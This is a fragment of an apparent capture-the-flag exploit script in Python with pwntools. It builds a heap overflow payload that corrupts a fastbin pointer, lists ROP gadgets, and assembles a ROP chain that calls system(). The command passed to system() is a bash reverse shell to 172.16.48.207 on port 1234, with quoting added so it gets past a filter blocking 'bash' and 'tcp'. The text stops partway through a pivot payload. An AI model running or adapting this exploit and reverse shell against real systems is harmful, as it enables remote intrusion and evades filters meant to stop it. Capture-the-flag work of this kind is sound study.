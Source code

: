 ```bash
    #     assert k not in shellcode, "invalid sequence {} in shellcode".format(k)


    # assert len(shellcode) <= 0x1100 - 0x8
    overflow_fastbin_fd_payload =  b'"ccccccccccccc\u"   '
    overflow_fastbin_fd_payload += b'3' * (0x1100 - 0x8)
    overflow_fastbin_fd_payload += p64(0x41) # size of fastbin
    '''
    gdb-peda$ x/20gx 0x676020-8+2
    0x67601a:       0x51e8000000000000      0x51f0000000000045
    '''
    overflow_fastbin_fd_payload += p32(0x67601a) # fake fd, use p32 instead of p64 to save bytes
    overflow_fastbin_fd_payload += b'"'
    overflow_fastbin_fd_payload += b',' # not end
    # print("overflow_fastbin_fd_payload len {:#x}, raw_len {:#x}".format(len(overflow_fastbin_fd_payload), raw_len(overflow_fastbin_fd_payload)))

    dummy_alloc_payload =  b'"'
    dummy_alloc_payload += b'4' * 0x30
    dummy_alloc_payload += b'"'
    dummy_alloc_payload += b','
    # print("dummy_alloc_payload len {:#x}, raw_len {:#x}".format(len(dummy_alloc_payload), raw_len(dummy_alloc_payload)))


    '''
    gdb-peda$ x/5i 0x7fea5aabd050
   0x7fea5aabd050 <munmap>:     mov    eax,0xb
   0x7fea5aabd055 <munmap+5>:   syscall
   0x7fea5aabd057 <munmap+7>:   cmp    rax,0xfffffffffffff001
   0x7fea5aabd05d <munmap+13>:  jae    0x7fea5aabd060 <munmap+16>
   0x7fea5aabd05f <munmap+15>:  ret
    '''
    '''
    0x00000000004464e2, # xchg edx, ecx ; ret -> save heap pointer
    0x0000000000451151, # pop r8 ; mov dword ptr [rdx], eax ; xor eax, eax ; ret
    0x0000000000450ab0 : mov rax, qword ptr [rdi + 0x28] ; ret
    0x0000000000401063, # pop rdx ; pop rbx ; pop rbp ; ret
    0x0000000000406862 : pop rsi ; ret
    0x0000000000404cb7 : pop rdi ; ret
    0x00000000004165af : add rax, rsi ; ret
    0x0000000000450ab0 : mov rax, qword ptr [rdi + 0x28] ; ret
    '''
    ropchain = flat([
        0x0000000000450ab0, # mov rax, qword ptr [rdi + 0x28] ; ret
        0x0000000000406862, # pop rsi ; ret
        0xa0b0, # system - getenv
        0x00000000004165af, # add rax, rsi ; ret -> rax->system
        0x0000000000404cb7, # pop rdi ; ret
        0x6760c8, # cmd address
        0x0000000000408823, # add rsp, 0x328 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret -> sastisfy system
        b'x' * (0x328 + 6 * 8),
        0x000000000040853d, # call rax
    ])

    CMD = b"""bas'h' -i >& /dev/'t'cp/172.16.48.207/1234 0>&1;"""
    for k in [b'bash', b'flag', b'cat', b'tcp', b'"']:
        assert k not in CMD, "invalid sequence {} in CMD".format(k)

    # CMD = b"touch /tmp/test;"
    pivot_payload = flat({
        0x00: p64(0x4087F5), # .alloc -> disable je in .free gadget
```